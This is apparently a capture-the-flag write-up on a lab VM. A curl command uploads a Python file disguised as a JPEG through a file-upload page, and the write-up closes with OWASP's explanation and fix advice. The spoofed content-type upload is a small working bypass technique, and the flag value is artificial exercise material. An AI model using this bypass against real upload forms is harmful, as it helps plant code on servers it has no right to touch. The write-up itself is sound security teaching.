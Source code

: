 # File Upload

![file_upload](./img/file_upload.png)
On the page ```http://[VM_IP]/?page=upload```
Let's try to transfer an empty python script instead of a picture using curl.
```
curl -F "Upload=send" -F "uploaded=@empty.py;type=image/jpeg" http://192.168.56.106/index.php\?page\=upload
```

So, we get the flag
```
The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8
```


## Explanation
Attack type: [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
> Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked.
> Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

## How to fix it
> The application should perform filtering and content checking on any files which are uploaded to the server.
> Files should be thoroughly scanned and validated before being made available to other users.
